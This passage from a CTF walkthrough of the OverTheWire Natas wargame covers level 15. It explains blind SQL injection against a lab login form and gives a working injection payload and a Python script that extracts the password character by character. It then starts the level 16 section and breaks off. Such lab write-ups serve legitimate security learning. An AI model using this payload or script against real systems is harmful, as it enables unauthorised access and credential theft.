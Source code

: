        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 
    mysql_close($link); 
} else { 
?> 
{% endhighlight %}

Now we know it is vulnerable to the same vulnerability as the previous one. But we are getting no output other than a simple "user exist".
We do get a hint we know that the table "users" contains a password column. We can use "user exist" as a boolean value to let us know when a query passed.
We this type of enumeration is known as blind SQL injection. To do this we first need to find a user that exist. As we could have guessed the user is natas16.

Now to pull this injection off we are going to utilize case sensitive SQL like statements. The statement we want to execute looks as follows.

{% highlight sql %}
natas16" and password COLLATE latin1_bin like "<characterhere>%
{% endhighlight %}

The like keyword works by looking patterns in the password table. The % is a wildcard. So we check each character in the string at a time till a match is found. Let’s go a step further and automate this with python.

{% highlight python %}
#blind.py
import requests
from requests.auth import HTTPBasicAuth
letters = "abcdefghijklmnopqrstuvwxyz1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZ"
solution = ""
for x in range(33):
    for c in letters:
        payload = {'username': 'natas16" and password COLLATE latin1_bin like "'+solution+c+'%'}
        r = requests.post("http://natas15.natas.labs.overthewire.org/", data=payload, auth=HTTPBasicAuth('natas15', 'natas15password'))
        if "This user exists." in r.text:
            solution = solution + c
            print "Solution: " + solution
print "Final: "+solution
{% endhighlight %}

After running our script we are presented with the password.

### Natas 16
- - - - - - -

Similar to natas 15 we are doing another blind search. Natas 15 gives up another form and more restrictions on the challenge we saw in natas9. It filters out the following characters 
